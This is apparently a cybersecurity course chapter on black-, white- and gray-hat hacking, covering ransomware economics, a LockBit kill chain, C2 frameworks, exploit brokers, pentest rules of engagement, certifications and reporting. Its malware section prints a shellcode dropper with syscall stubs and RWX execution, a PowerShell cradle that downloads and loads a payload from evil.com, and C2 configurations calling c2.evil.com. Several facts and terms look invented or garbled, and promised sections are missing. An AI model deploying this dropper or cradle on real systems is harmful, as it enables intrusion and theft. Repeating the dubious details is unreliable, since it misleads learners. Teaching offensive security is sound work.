


# Chapter 10: Ethical Hacking & Pentesting

> **Prereq:** Chapter 9 (GRC) — pentesting validates that GRC-defined controls are effective.
> **Next:** This is the final chapter — review the full cyber-security roadmap from fundamentals to advanced testing.

---

## Learning Objectives

- Define Black Hat, White Hat, and Gray Hat hacking with real-world examples.
- Explain the full ethical hacking methodology and penetration testing lifecycle.
- Execute a complete penetration test from reconnaissance to reporting.
- Understand criminal operations, exploit development, and C2 frameworks.
- Apply legal frameworks, disclosure ethics, and reporting standards.
- Build a home pentesting lab and perform hands-on exploitation.

---

## Chapter Outline

| Section | Topics |
|---------|--------|
| Black Hat Hacking | Criminal motivations, RaaS, IABs, C2 frameworks, OPSEC failures |
| White Hat Hacking | Legal framework, certifications, bug bounties, pentest methodology |
| Gray Hat Hacking | Ethics, dilemmas, famous cases, legal gray areas |
| Pentesting Lab | Full 8-phase walkthrough with tool commands and outputs |
| Practical Examples | 15+ hands-on exploits with full command listings |
| Case Studies | Carbanak/Fin7, Marcus Hutchins, Khalil Shreateh, Lazarus, Samy Kamkar, LAPSUS$ |
| Comparison Tables | Black vs White vs Gray, C2 frameworks, pentest types |
| Interview Corner | 15+ Q&As for pentesting job interviews |

---

## Section 1: Black Hat Hacking

### 1.1 Definition and Motivations


Black Hat hackers are individuals who break into systems without authorization, typically for personal gain, malicious purposes, or ideological reasons. Unlike White Hats who operate with permission, Black Hats violate laws, ethical standards, and organizational policies.

**Primary Motivations:**

| Motivation | Description | Example |
|-----------|-------------|---------|
| Financial Gain | Direct theft, ransomware, fraud | Carbanak gang stealing $1B+ from banks |
| Espionage | State-sponsored intelligence gathering | APT10 stealing IP from aerospace firms |
| Hacktivism | Political or social cause activism | Anonymous operations against government targets |
| Cyber Warfare | Nation-state military operations | Russian GRU targeting Ukrainian infrastructure |
| Cybercrime-as-a-Service | Selling access/tools to other criminals | Initial Access Brokers (IABs) on darknet forums |
| Reputation/Skill | Proving capability in hacker communities | DefCon CTF winners turned criminal |
| Insider Threat | Disgruntled employees, financial pressure | Tesla employee sabotaging manufacturing systems |

### 1.2 Criminal Operations Ecosystem


Black Hat operations have professionalized into a mature underground economy. Understanding this ecosystem is essential for both offense and defense.

**Ransomware-as-a-Service (RaaS):**
RaaS is a business model where ransomware developers license their malware to "affiliates" who execute attacks in exchange for a percentage of ransoms (typically 70-80% to affiliates, 20-30% to developers).

```
Affiliate Program Structure:
┌─────────────┐     ┌──────────────┐     ┌─────────────┐
│ RaaS Dev    │────→│ Affiliates   │────→│ Victims     │
│ (builds)    │     │ (deploys)    │     │ (pays)      │
└──────┬──────┘     └──────┬───────┘     └──────┬──────┘
       │                   │                     │
       │ 70-80% share      │                     │
       │ ←─────────────────┤                     │
       │                   │   Cryptocurrency     │
       │                   │ ←───────────────────│
```

Major RaaS operations: LockBit 3.0 (most deployed in 2023-2024), ALPHV/BlackCat, Royal, Black Basta, Clop, REvil (disrupted but re-emerged).

**Initial Access Brokers (IABs):**
IABs specialize in breaching organizations and selling access to ransomware groups or other threat actors. Access is typically sold on darknet forums (Exploit, XSS, Russian Market) priced by revenue size and industry.

```
IAB Pricing Examples (from observed market data):
- RDP access to small business: $500-$2,000
- VPN access to enterprise: $2,000-$10,000
- Citrix/VDI access: $1,000-$5,000
- Domain admin access: $5,000-$20,000
- Email access to CFO/CXO: $1,000-$3,000
```

Common IAB techniques: scanning for exposed RDP (port 3389), VPN vulnerabilities (Pulse Secure, Citrix ADC), phishing campaigns, purchasing stolen credentials from info-stealer logs.

**Bulletproof Hosting:**
Bulletproof Hosting (BPH) providers operate servers that ignore abuse complaints, tolerate malicious content, and resist law enforcement takedowns. They typically operate in jurisdictions with weak cybercrime enforcement (Russia, Ukraine, certain Caribbean nations).

BPH services include:
- DDoS-protected dedicated servers
- Domain registration with fake WHOIS data
- Fast-flux DNS networks
- Anonymous payment (cryptocurrency)
- No logging policy

**Darknet Markets:**
Markets operating on Tor network for illegal goods and services. Major markets include:

| Market | Specialty | Notable |
|--------|-----------|---------|
| Russian Market (RAMP) | Initial access, exploits | Survived multiple takedowns |
| Exploit (.in) | Exploits, malware, botnets | Russian-language |
| XSS (.is) | IAB access, CVEs | Requires invitation |
| Hydra Market | Drugs, digital services | Taken down by German police 2022 |
| AlphaBay | General illicit goods | FBI takedown 2017, relaunched 2021 |

**Cryptocurrency Laundering:**
Criminal proceeds are laundered through crypto to obfuscate the trail:

1. **Tumbling/Mixing:** Services like Tornado Cash (Ethereum), Wasabi Wallet, ChipMixer accept crypto and return "clean" coins from a pool
2. **Chain Hopping:** Converting between blockchains (Bitcoin → Monero → Ethereum) to break chain analysis
3. **Renames:** Using privacy coins (Monero, Zcash) that obscure transaction details
4. **Casinos/Gambling:** Gambling platforms that accept crypto with minimal KYC
5. **NFT Wash Trading:** Buying/selling NFTs between own wallets to create fake transaction history
6. **Pig Butchering Scams:** Romance scam victims launder money through crypto exchanges

```
Money Laundering Flow:
Bitcoin (stolen) → Tornado Cash (mixer) → Monero (privacy coin) →
Centralized Exchange (with fake KYC) → USDT → OTC Desk → Fiat Currency
```

### 1.3 Real Attack Chains (Full Kill Chain)


**Attack Chain Example: LockBit Ransomware Breach**

```
Phase 1: Reconnaissance
├── Shodan search for exposed RDP on port 3389
├── Search for VPN portals (Citrix, Pulse Secure)
└── OSINT: LinkedIn for employees, email format verification

Phase 2: Weaponization
├── Purchase access from IAB on Russian Market ($3,000)
├── Prepare Cobalt Strike beacon DLL
└── Configure C2 profile with domain fronting (Cloudfront CDN)

Phase 3: Delivery
├── Spear-phish IT admin (impersonating CrowdStrike support)
├── Malicious macro document: "PaloAlto_Update.docm"
└── Payload hosted on compromised WordPress site

Phase 4: Exploitation
├── Macro executes PowerShell download cradle
├── Cobalt Strike beacon DLL loaded in memory (fileless)
└── C2 beacon established over HTTPS every 60 seconds

Phase 5: Installation
├── Service persistence via schtasks
├── Secondary beacon via Cobalt Strike SMB listener (pivot)
└── Registry Run key for backup persistence

Phase 6: Command & Control
├── Beacon traffic to redirector (AWS EC2 in us-east-1)
├── Redirector proxies to team server (DigitalOcean - Amsterdam)
└── Domain fronting via Cloudfront to avoid IP block

Phase 7: Lateral Movement
├── BloodHound collection: SharpHound.exe over SMB
├── Pass-the-Hash via wmiexec to domain controller
├── Dump LSASS on DC via Mimikatz
└── Extract KRBTGT hash for Golden Ticket

Phase 8: Actions on Objective
├── Deploy LockBit ransomware via GPO push
├── Exfiltrate 500GB via Rclone to MegaNZ
├── Delete Volume Shadow Copies (vssadmin)
├── Disable Windows Defender via registry
└── Leave ransom note in every directory (Restore-My-Files.txt)
```

### 1.4 Malware Development


Professional Black Hat malware development involves multiple components working together.

**Custom Droppers:**
A dropper is a lightweight executable that downloads and executes the main payload. Modern droppers use advanced evasion:

```cpp
// Custom dropper with API hashing and direct syscalls
// Compile: x86_64-w64-mingw32-gcc -O2 dropper.c -o dropper.exe

#include <windows.h>
#include <winternl.h>

// API hashing function - avoids import address table
DWORD HashString(char* str) {
    DWORD hash = 0;
    while (*str) {
        hash = (hash << 5) - hash + *str++;
    }
    return hash;
}

// Resolves function by hash to avoid import table
LPVOID GetProcByHash(DWORD moduleHash, DWORD functionHash) {
    PEB* peb = (PEB*)__readgsqword(0x60);
    LDR_DATA_TABLE_ENTRY* entry;
    // Walk PE loader data to find module this is in practice
    // Simplified for demonstration
    return GetProcAddress(NULL, "VirtualAlloc");
}

// Direct syscall via assembly stub (SysWhispers2 style)
// Avoids ntdll.dll hooking
__attribute__((naked)) NTSTATUS SysVirtualAlloc(
    LPVOID lpAddress, SIZE_T dwSize,
    DWORD flAllocationType, DWORD flProtect
) {
    __asm {
        mov r10, rcx
        mov eax, 0x18  // Syscall number for NtAllocateVirtualMemory
        syscall
        ret
    }
}

// Decrypt payload with XOR
void DecryptPayload(unsigned char* payload, DWORD size, unsigned char key) {
    for (DWORD i = 0; i < size; i++) {
        payload[i] ^= key;
    }
}

int main() {
    // Encrypted shellcode (XOR key 0xAA)
    unsigned char encryptedShellcode[] = {
        0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00
        // ... shellcode encrypted with XOR 0xAA
    };

    // Allocate memory with RWX permissions
    LPVOID execMem = VirtualAlloc(
        NULL, sizeof(encryptedShellcode),
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    );

    if (!execMem) return 1;

    // Decrypt in memory
    DecryptPayload(encryptedShellcode, sizeof(encryptedShellcode), 0xAA);

    // Copy to executable memory
    memcpy(execMem, encryptedShellcode, sizeof(encryptedShellcode));

    // Execute shellcode
    EnumWindows((WNDENUMPROC)execMem, 0);

    return 0;
}
```

**Packers and Crypters:**

- **Packers:** Compress executables to evade signature-based detection. Tools: UPX, MPRESS, Themida, VMProtect.
- **Crypters:** Encrypt executables with a decryption stub that decrypts at runtime. Modern crypters use:
  - Multiple encryption layers (AES-256 → RC4 → XOR)
  - Anti-debug (IsDebuggerPresent, NtGlobalFlag checks)
  - Anti-VM (MAC address check for VMware/VirtualBox)
  - Sandbox evasion (check uptime, CPU cores, RAM size)
  - Delay execution (Sleep with random offsets)

**FUD (Fully Undetected) Techniques:**

1. **Ambient API Calls:** Using system API calls with normal arguments that decrypt/locate shellcode, avoiding suspicious patterns
2. **Process Hollowing:** Create legitimate process (notepad.exe), unmapping its memory, writing malicious code into the empty process
3. **DLL Sideloading:** Place malicious DLL alongside legitimate EXE that loads it unsafely
4. **Reflective DLL Injection:** DLL loaded directly from memory without going through LoadLibrary
5. **Alternative Function Calls:** Using Indirect Syscalls (call ntdll functions with swapped function orders)
6. **ETW/AMSI Patching:** Disabling Event Tracing for Windows and Antimalware Scan Interface
7. **DInvoke:** Dynamic invocation of unmanaged code from managed .NET code

```powershell
# Fileless PowerShell download cradle (used by many loaders)
powershell -NoProfile -ExecutionPolicy Bypass -EncodedCommand
$client = New-Object System.Net.WebClient;
$bytes = $client.DownloadData('http://evil.com/payload.bin');
$decrypted = [System.Linq.Enumerable]::ToArray(
    [System.Linq.Enumerable]::Select(
        $bytes, [Func[int,int]]({ param($b) $b -bxor 0xAA })
    )
);
$assembly = [System.Reflection.Assembly]::Load($decrypted);
$assembly.EntryPoint.Invoke($null, (, [string[]] ('',)))
```

### 1.5 C2 Frameworks


Command & Control (C2) frameworks are the backbone of Black Hat operations, providing persistent access to compromised systems.

**Cobalt Strike (Commercial):**
- Most widely used by both Red Teams and threat actors
- Features: Beacon (HTTP/HTTPS/DNS/SMB), Malleable C2 profiles, SOCKS proxy, lateral movement
- Aggressor Script for automation
- Used by: FIN7, APT29, Conti, many ransomware affiliates
- Price: $3,500/user/year (legitimate license), cracked versions on darknet

```
Cobalt Strike Beacon Profile (example):
set sample_name "Microsoft Update Helper";
set sleeptime "45000";      # 45 second beacon interval
set jitter "15";             # 15% jitter
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";

http-get {
    set uri "/update/check";
    client {
        header "Accept" "text/html,application/xhtml+xml";
        metadata {
            base64url;
            prepend "__cfduid=";
            header "Cookie";
        }
    }
    server {
        header "Content-Type" "text/html";
        output {
            netbios;
            prepend "window._cf_chl_f =
'";
            append "';window._cf_chl_opt={}}";
            print;
        }
    }
}
```

**Sliver (Open Source - BishopFox):**
- Modern, Go-based, free alternative to Cobalt Strike
- Supports: mTLS, HTTP(S), DNS, WireGuard
- Player mode for single-operator, Server mode for team ops
- Native implant generation for Windows, Linux, macOS
- Built-in staging, profiling, and pivoting

```
Sliver server commands:
sliver > generate --http evil.com --os windows --name implant01
sliver > profiles new --mtls c2.evil.com:443 --skip-symbols beacon-win64
sliver > https --domain c2.evil.com -L 0.0.0.0 -l 443
sliver > jobs
sliver > use <session-id>
sliver > info
sliver > shell
sliver > execute-assembly /tmp/Seatbelt.exe
sliver > socks5 start
sliver > pivots
```

**Havoc (Open Source - C5pider):**
- Modern C2 with a focus on evasion
- Uses: x64 position-independent code (PIC), sleep obfuscation, indirect syscalls
- Built-in Demon implant with extensive evasion
- Plugin system (Python, Go, C)

```
Havoc teamserver config:
Listeners:
  - Name: HTTPS_Listener
    Protocol: HTTPS
    Host: 0.0.0.0
    Port: 443
    Secure: true
    Certificate:
      Cert: /etc/letsencrypt/live/c2.evil.com/fullchain.pem
      Key: /etc/letsencrypt/live/c2.evil.com/privkey.pem

Demon config:
  - Sleep: 30
  - Jitter: 20
  - KillDate: 2025-12-31
  - WorkingDirectory: %TEMP%
  - Injection: syscall
  - SleepObfuscation: true
  - IndirectSyscalls: true
  - StackDuplication: true
```

**Empire (PowerShell/Python - BC Security):**
- Post-exploitation framework using PowerShell (agent) and Python (server)
- Module-based: keylog, screenshot, mimikatz integration
- PowerShell without powershell.exe (using unmanaged PowerShell)
- Less popular due to detection improvements, but still effective

**Covenant (.NET - Ryan Cobb):**
- .NET C2 framework with extensive UI
- Uses HTTP/HTTPS listeners with Bridge listeners for staging
- Grunt implants (C#), GhostPack integration
- Profiles: Default, Customizable with YAML configuration

**Mythic (Cross-platform):**
- Multi-agent C2 with web UI
- Supports multiple agent types (Apollo, Poseidon, Athena)
- C2 profiles for HTTP, HTTPS, DNS, SMB, and custom
- Dynamic agents compiled per-operator

```
Mythic agent callback configuration:
{
    "callback_host": "https://c2.evil.com",
    "callback_interval": 15,
    "callback_jitter": 15,
    "encryption_key": "AES256Key-32Bytes",
    "encryption_type": "aes256_hmac",
    "get_requests_uri": "/news/feed/atom.xml",
    "post_requests_uri": "/news/submitComment",
    "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "headers": {
        "Accept": "text/html,application/xhtml+xml",
        "Accept-Language": "en-US,en;q=0.9"
    }
}
```

**C2 Protocols and Evasion:**

| Protocol | Use Case | Detection Difficulty |
|----------|----------|---------------------|
| HTTPS | Most common, blends with web traffic | Medium |
| DNS | Bypasses HTTP inspection, stealth | Hard (entropy analysis) |
| SMB | Internal network lateral movement | Medium |
| ICMP | Limited bandwidth, exfiltration | Medium |
| WebSocket | Real-time bidirectional comms | Low-Medium |
| Custom | Bespoke protocols, hard to signature | Very Hard |

**Domain Fronting:**
Abusing CDN infrastructure to hide true C2 destination. The C2 uses a legitimate CDN domain (cloudfront.net, azureedge.net) as the front domain while the actual C2 server sits behind the CDN.

```
HTTPS Request:
Client connects to: https://cloudfront.net/update (front domain)
CDN routes to: https://c2server.evil.com/update (hidden behind CDN)

Mitigation: CDNs now block domain fronting via SNI verification
```

**Redirectors:**
Intermediate servers that proxy traffic to hide the C2 server. A typical redirector chain might be:
```
Victim → Compromised WordPress Site (redirector) → AWS EC2 (redirector) → C2 Team Server
```

**CDN Abuse:**
Using legitimate CDN services as proxies. Common techniques:
- Cloudflare Workers (serverless functions acting as reverse proxy)
- AWS CloudFront with custom origins pointing to C2
- Azure Front Door CDN
- Fastly CDN edge compute

### 1.6 Zero-Day Discovery and Exploit Brokers


**Zero-Day Discovery:**
Black Hat researchers (or legitimate researchers selling to brokers) find vulnerabilities through:
- Source code audits (leaked or reverse-engineered)
- Fuzzing (AFL, libFuzzer, Honggfuzz)
- Patch diffing (comparing patched and unpatched binaries)
- Reverse engineering of security updates
- Static analysis tools (IDA Pro, Ghidra, Binary Ninja)
- Dynamic analysis (WinDbg, GDB, x64dbg)

**Zero-Day Pricing (based on observed market data):**

| Target | Price Range |
|--------|-------------|
| Browser (Chrome/Edge/Safari chain) | $150,000 - $500,000+ |
| iOS/macOS | $500,000 - $2,000,000 |
| Android | $100,000 - $300,000 |
| Windows kernel | $100,000 - $200,000 |
| MS Office chain | $100,000 - $300,000 |
| Signal/WhatsApp | $500,000 - $1,500,000 |
| VPN appliances | $50,000 - $200,000 |
| IoT/Embedded | $5,000 - $50,000 |

**Exploit Brokers (Zerodium, Crowdfense):**
Zerodium is the largest exploit broker, paying researchers for exploits and selling to government clients. Their pricing is public: $2.5M for full iPhone chain, $2M for WhatsApp RCE, $500K for Chrome. They primarily serve "Western intelligence agencies."

The business model:
```
Researcher → Zerodium → Government Client
             (Broker)      (End User)
                ↑             ↓
           Buys exploits  Uses for ops/defense
           $500K-$2.5M    Classified missions
```

Zerodium's model has been criticized for enabling offensive cyber operations by governments, but they argue they vet buyers and only sell to "democratic nations with strong human rights records."

### 1.7 OPSEC Failures


Many high-profile Black Hat hackers were caught due to operational security (OPSEC) failures. These provide critical lessons:

**Common OPSEC Failures:**

1. **Reusing Handles/Nicknames:** Sabu (LulzSec) reused "Sabu" across forums spanning years
2. **Personal Infrastructure:** Using home IP addresses for C2 servers
3. **Payment Trail:** Converting Bitcoin to fiat on exchanges with KYC (BTC-e)
4. **Bragging:** Posting on social media or forums about successes
5. **Crypto Mistakes:** Bitcoin blockchain is permanent. Chainalysis tracks every transaction.
6. **Personality Leaks:** Writing style analysis, timezone from activity patterns
7. **Technical Fingerprints:** Leaving personal credentials in malware compile paths or PDB strings
8. **Covernacular Breaks:** Using real name or personal email during op

```
Famous OPSEC Failure: Ross Ulbricht (Silk Road)
┌────────────────────────────────────────────┐
│ Use: Silk Road (darknet market)             │
│ OPSEC Mistake: Posted on BitcoinTalk forum  │
│ with personal email (rossulbricht@gmail.com)│
│ While using "Dread Pirate Roberts" alias    │
│ Also: Linked Gmail account used to register │
│ the Silk Road server with a VPN provider    │
│     → FBI traced email → linked to real ID │
│     → Arrested in San Francisco library    │
└────────────────────────────────────────────┘

Famous OPSEC Failure: LAPSUS$
┌────────────────────────────────────────────┐
│ Use: Teen hackers breached Nvidia, Okta,    │
│ Samsung, Microsoft, Ubisoft, Rockstar       │
│ OPSEC Mistake: Bragged in Telegram chats   │
│ Chat members revealed real names/IPs       │
│ Law enforcement (UK, Brazil) traced them   │
│ through compromised Twitter accounts and    │
│ VoIP provider records (used for SIM swap)  │
│     → Multiple arrests in 2022            │
│     → 18-year-old primary suspect charged │
└────────────────────────────────────────────┘
```

**The MGM Resorts Ransomware Attack (2023 - Scattered Spider):**
The group used vishing (voice phishing) to call the MGM IT help desk, impersonating an employee, and convinced them to reset MFA — gaining access as a domain admin. They were tracked because they bragged in Discord servers and reused personal accounts for operational activities.

---

## Section 2: White Hat Hacking

### 2.1 Definition and Purpose


White Hat hackers (ethical hackers) use the same techniques as Black Hats but operate with explicit authorization, clear scope, and a legal framework. Their goal is to identify and fix vulnerabilities before malicious actors can exploit them.

**Core Principles:**
- **Authorization:** Written permission before any testing
- **Scope:** Clearly defined targets and techniques
- **Confidentiality:** Client data is protected
- **Integrity:** Testing does not damage systems
- **Disclosure:** Findings shared responsibly
- **Remediation:** Focus on fixing, not just breaking

### 2.2 Legal Framework


A professional pentest operates within a comprehensive legal framework:

**Rules of Engagement (ROE) Document:**

```
┌──────────────────────────────────────────────────┐
│           RULES OF ENGAGEMENT                     │
├──────────────────────────────────────────────────┤
│ Client: Acme Corporation                          │
│ Tester: SecurePentest LLC                         │
│ Date Range: 2024-11-01 to 2024-11-15              │
├──────────────────────────────────────────────────┤
│ IN SCOPE:                                         │
│   - 10.0.0.0/8 internal network                  │
│   - *.acme.com external range                    │
│   - Web applications (staging instances)          │
├──────────────────────────────────────────────────┤
│ OUT OF SCOPE:                                     │
│   - Production database servers                    │
│   - Customer PII/PCI environments                  │
│   - Third-party hosted services                    │
│   - SCADA/ICS/OT networks                          │
│   - Denial of Service testing                     │
├──────────────────────────────────────────────────┤
│ AUTHORIZED TECHNIQUES:                             │
│   - Network scanning (nmap, masscan)               │
│   - Web application testing (Burp Suite, SQLmap)   │
│   - Social engineering (phishing simulation)       │
│   - Password attacks (no account lockout)          │
├──────────────────────────────────────────────────┤
│ TESTING WINDOWS:                                   │
│   - 08:00 - 20:00 Monday - Friday                  │
│   - No testing on holidays or change windows       │
├──────────────────────────────────────────────────┤
│ EMERGENCY CONTACTS:                                │
│   - Security Operations Center: +1-555-0100        │
│   - CISO: +1-555-0101                              │
│   - Testers: +1-555-0199                           │
└──────────────────────────────────────────────────┘
```

**Additional Legal Requirements:**
- **Authorization Letter:** Signed by CISO or equivalent, naming testers and scope
- **Liability Waiver:** Client agrees not to sue for unintended damage
- **Insurance:** Professional liability insurance ($1M-$5M coverage)
- **NDA:** Non-Disclosure Agreement for all data encountered
- **Data Handling:** How PII, credentials, and sensitive data will be handled/retained/destroyed

### 2.3 Certifications


| Certification | Focus | Experience Required | Exam Cost | Renewal |
|--------------|-------|-------------------|-----------|---------|
| CEH (EC-Council) | Broad ethical hacking | 2 years or training | $1,199 | $80/yr + 120 CPE |
| OSCP (OffSec) | Hands-on pentesting | None (practical) | $1,599 per attempt | Lifetime |
| GPEN (SANS/GIAC) | Pentesting methodology | 2 years | $2,499 | $429/yr + CPE |
| GXPN (SANS/GIAC) | Advanced exploitation | GPEN recommended | $2,499 | $429/yr + CPE |
| CISSP (ISC2) | Security management | 5 years | $749 | $85/yr + CPE |
| PNPT (TCM Security) | Practical network pentest | None | $599 per attempt | Lifetime |
| CRTP (PentesterAcademy) | AD pentesting | OSCP recommended | $399 | Lifetime |

**Certification Path Recommendation:**
```
Entry Level: CEH or Security+ → Hands-on: OSCP or PNPT →
Advanced: GPEN/GXPN → Strategic: CISSP
```

### 2.4 Bug Bounty Platforms


**Platform Comparison:**

| Platform | Starting | Payout Range | Structure | Notable Programs |
|----------|----------|-------------|-----------|-----------------|
| HackerOne | 2012 | $100 - $250K+ | Public/Private | Google, PayPal, Nintendo, Twitter/X |
| Bugcrowd | 2011 | $50 - $100K+ | Public/Private | Microsoft, Atlassian, Spotify |
| Intigriti | 2016 | $50 - $50K+ | Public/Private | Apple (private), KPMG, Intel |
| Synack | 2013 | $100 - $25K+ | Invite-only | US Federal (DHS), PayPal |
| YesWeHack | 2015 | $50 - $50K+ | Public/Private | Orange, DoD France |

**Top Bug Bounty Earners (public 2024):**
- **PinkDraconian** (HackerOne): $2M+ lifetime, Microsoft-focused
- **djadmin** (Apple Security Hall of Fame): Multiple iOS bypasses
- **reentrancy** (Google VRP): $1M+ lifetime
- **nyangawa** (HackerOne): $500K+, XSS and SSRF specialist

**Bug Bounty Payout Examples:**

| Vulnerability | Typical Bounty | Platform |
|--------------|---------------|----------|
| XSS (stored) | $500 - $5,000 | HackerOne |
| SQL Injection | $2,000 - $15,000 | Bugcrowd |
| RCE (authenticated) | $5,000 - $25,000 | HackerOne |
| RCE (unauthenticated) | $10,000 - $50,000 | Google VRP |
| Account Takeover | $3,000 - $20,000 | Microsoft |
| SSRF (cloud metadata) | $5,000 - $15,000 | HackerOne |
| Zero-click RCE chain | $50,000 - $250,000 | Apple |

### 2.5 Vulnerability Disclosure


**Coordinated Disclosure Process:**

```
Week 1: Researcher identifies vulnerability
Week 2-3: Researcher contacts vendor via security@ or bug bounty
Week 3-4: Acknowledged by vendor, CVE reserved
Week 4-8: Vendor develops patch (negotiates timeline)
Week 9: Patch released, CVE published, public disclosure
```

**CVE Process:**
1. Researcher or vendor requests CVE ID from CVE Numbering Authority (CNA)
2. CNA assigns CVE ID (format: CVE-YEAR-NUMBER)
3. Details: affected product, vulnerability type, impact, CVSS score
4. CVE is published on NVD (National Vulnerability Database) after patch release
5. References include vendor advisories, researcher writeups, exploit code

**Responsible Disclosure Timeline:**
- **Standard:** 90-120 days from vendor notification to public disclosure
- **Active Exploitation:** Immediate notification, possibly faster disclosure
- **No Response:** 90 days → public disclosure with limited detail
- **Industry Standard:** Google Project Zero: 90 days fixed, 14 day grace for active exploits

### 2.6 Types of Penetration Testing


| Pentest Type | Focus | Typical Duration | Cost Range |
|-------------|-------|-----------------|------------|
| Network Pentest | External/internal network | 1-3 weeks | $10K - $50K |
| Web Application | OWASP Top 10, business logic | 1-4 weeks | $15K - $80K |
| Cloud Pentest | AWS/Azure/GCP configs | 1-3 weeks | $15K - $60K |
| Mobile App | iOS, Android (MASTG) | 1-3 weeks | $10K - $40K |
| Red Team | Full adversary simulation | 2-6 weeks | $50K - $250K+ |
| Physical | Facility security testing | 1-2 weeks | $5K - $25K |
| Social Engineering | Phishing, pretexting | 1-2 weeks | $5K - $20K |
| API Pentest | REST, GraphQL, gRPC | 1-2 weeks | $10K - $30K |
| IoT/Embedded | Device firmware, hardware | 2-4 weeks | $20K - $60K |
| Wireless | WiFi, Bluetooth | 1 week | $5K - $15K |

**Testing Approach Comparison:**

| Approach | Description | Tester Knowledge |
|----------|-------------|-----------------|
| Black Box | No prior knowledge of target | None |
| Gray Box | Limited knowledge (credentials, docs) | Partial |
| White Box | Full knowledge (source code, architecture) | Full |

| Aspect | Black Box | Gray Box | White Box |
|--------|-----------|----------|-----------|
| Realism | Highest (simulates real attacker) | Medium | Low |
| Coverage | Limited by recon | Medium | Highest |
| Time Required | Most (recon heavy) | Medium | Least |
| Cost | Highest | Medium | Least |
| Find Depth | Surface-level issues | Medium | Deep logic flaws |
| Best For | External assessments | Web apps, APIs | Code review, crypto |

### 2.7 Pentest Methodologies


**PTES (Penetration Testing Execution Standard):**
```
1. Pre-engagement Interactions (scoping, legal)
2. Intelligence Gathering (OSINT, active recon)
3. Threat Modeling (what matters to target)
4. Vulnerability Analysis (scanning, manual analysis)
5. Exploitation (gaining access)
6. Post-Exploitation (what can you access)
7. Reporting (document everything)
```

**OSSTMM (Open Source Security Testing Methodology Manual):**
Focus on operational security metrics. Key sections:
- Information Security Controls
- Process Security Controls
- Internet Technology Controls
- Communications Security Controls

**OWASP Testing Guide (v4/v5):**
Web application specific with 12 control categories:
1. Information Gathering (OTG-INFO)
2. Configuration and Deployment Management
3. Identity Management
4. Authentication Testing
5. Authorization Testing
6. Session Management
7. Input Validation
8. Error Handling
9. Cryptography
10. Business Logic
11. Client Side
12. API Testing

**NIST SP 800-115:**
Technical Guide to Information Security Testing:
- Review techniques (document review, pass/fail)
- Vulnerability identification (scanning, analysis)
- Penetration testing methodologies (discovery, attack, reporting)

### 2.8 Reporting


A professional pentest report follows a standard structure:

```
┌─────────────────────────────────────────────────┐
│           PENETRATION TEST REPORT                │
│           Acme Corporation                       │
│           Date: December 2024                    │
├─────────────────────────────────────────────────┤
│ CONFIDENTIAL - FOR AUTHORIZED RECIPIENTS ONLY   │
└─────────────────────────────────────────────────┘

1. Executive Summary (1-2 pages)
   ├── Background and objectives
   ├── Overall risk rating
   ├── High-level findings summary
   ├── Critical vulnerabilities (count)
   ├── Compromise narrative (how far testers got)
   └── Strategic recommendations

2. Scope and Methodology
   ├── In-scope targets
   ├── Testing dates and times
   ├── Tools used
   ├── Methodology reference (PTES, NIST, OWASP)
   └── Limitations

3. Findings Summary Table
   ┌────────────┬──────┬──────────┬────────────────┐
   │ Finding    │ Risk │ CVSS 3.1│ Recommendation │
   ├────────────┼──────┼──────────┼────────────────┤
   │ SQLi in    │ Crit │ 9.8     │ Parametrize    │
   │ /api/users │      │         │ queries        │
   ├────────────┼──────┼──────────┼────────────────┤
   │ Default    │ High │ 7.5     │ Disable SSH    │
   │ SSH creds  │      │         │ password auth  │
   └────────────┴──────┴──────────┴────────────────┘

4. Detailed Findings
   For each finding:
   ├── Title and risk rating
   ├── CVSS vector string (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
   ├── Description of vulnerability
   ├── Affected systems or endpoints
   ├── Proof of concept (command executed, screenshot)
   ├── Impact assessment
   └── Remediation steps

5. Compromise Narrative (for Red Team engagements)
   ├── Timeline of attack
   ├── Attack chain diagram
   ├── Time to compromise
   ├── Time to privilege escalation
   ├── Time to lateral movement
   └── Time to objective

6. Retest Results (if applicable)
   ├── Previously identified issues
   ├── Verification of remediation
   └── New issues found

7. Appendices
